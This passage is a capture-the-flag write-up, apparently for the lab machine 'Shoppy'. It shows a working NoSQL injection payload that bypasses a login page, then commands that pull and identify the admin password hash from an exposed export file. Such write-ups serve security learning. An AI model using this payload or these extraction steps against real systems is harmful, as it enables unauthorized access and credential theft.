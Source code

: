 ![Image alt](/images/Pasted-image-20221216045759.png)

![Image alt](/images/Pasted-image-20221216045741.png)

- Let's intecept a login request with burpsuite:

![Image alt](/images/Pasted-image-20221216052142.png)

- I tested the login page for SQL injections but it does not work. I tried to run sqlmap against the `/login` endpoint but it does not work too.
- The recon phase does not reveal any database information (if it's SQL or NoSQL database)
- After testing for SQL and failed to get a good result, i will test for NOSQL injection.
  - After a lot of googling to learn more about NOSQL injection (I don't know to much about it)
  - The following payloaf worked with me to bypass the login page: `admin'||'1==1//`

![Image alt](/images/Pasted-image-20221216054404.png)

- Login page bypassed:

![Image alt](/images/Pasted-image-20221216054535.png)

- I tried to search for `test` and i get the following result:

![Image alt](/images/Pasted-image-20221216054732.png)

- What is interstiing here is the query parameter name `username`
- I tried to submit a search query now but with value `admin` for the query parameter `username=`
- I get the following result:

![Image alt](/images/Pasted-image-20221216054957.png)

- I clicked download and here is what i get!:

![Image alt](/images/Pasted-image-20221216055056.png)

- We have now the admin password in a hashed format, we can try to crack it and see if we can get a foothold to the machine.

```bash
# Get the hashed password and save it inside a bash variable
# hashedPassword

goku@exploitation:~$ hashedPassword=$(curl  http://shoppy.htb/exports/export-search.json | jq '.[0].password' | sed 's/\"//g')

# Using the hashid tool we can identify the possible hashtype
goku@exploitation:~$ hashid $hashedPassword
Analyzing '23c6877d9e2b564ef8b32c3a23de27b2'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```